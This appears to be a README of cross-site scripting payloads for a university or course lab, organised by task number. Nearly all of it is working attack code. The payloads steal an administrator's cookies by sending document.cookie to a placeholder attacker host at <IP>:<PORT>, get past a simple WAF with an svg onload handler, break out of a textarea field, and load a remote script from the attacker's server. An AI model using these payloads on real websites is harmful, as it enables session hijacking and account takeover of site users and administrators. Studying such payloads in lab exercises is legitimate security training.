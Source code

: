 # Second Laboratory (XSS) Scripts

### Get Own Cookies On Search (Task 1.2):

```html
<script>
	document.write(document.cookie);
</script>
```

### Steal Admin's Cookies On Bug / Feature Report (Task 1.4):

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Search above Script
- Copy acquired Link
- Report it

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF (Task 2.1):

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Search above Script
- Copy acquired Link
- Report it

### Steal Admin's Cookies On BlogPosts Review (Task 3.2):

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts (Task 3.3):

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js"></script>
<textarea>
```

